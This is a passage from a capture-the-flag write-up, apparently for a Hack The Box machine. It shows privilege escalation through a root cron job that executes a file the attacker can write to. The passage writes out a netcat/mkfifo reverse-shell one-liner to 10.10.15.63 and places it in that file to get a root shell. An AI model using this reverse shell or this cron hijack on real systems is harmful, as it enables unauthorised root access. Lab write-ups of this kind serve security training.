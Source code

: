 ```console
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs <---- THIS ONE HERE
```

Cron is calling a clearlogs script at `/var/www/cronjobs/clearlogs` with root privileges. Content of clearlogs:

```console
$ cat /var/www/cronjobs/clearlogs

#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
Clearlogs script clears access.log and **executes** `/var/www/cmd/logcleared.sh` which we have write access to! (OR if the file doesn't exist, create it and chmod 777 it).  Because we can write to the file, we can control what is written in it. Long story short, we can easily control what will be executed as root each time the cron job runs. I just made another reverse shell which connected to me  -  `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.63 5555 >/tmp/f" > /var/www/cmd/logcleared.sh`

<div class="notice--info">
  <h4>Note:</h4>
  <p>Make sure both netcat connections are connected via a different port, using the same one won’t work.</p>
</div>

Once the cronjob calls `/var/www/cronjobs/clearlogs` our malicious logcleared.sh file will be executed which will give us a root shell!

<img src="/assets/img/blog/htb-europa/htb-europa-12.png">

***

## Congratulations, you have rooted the box!
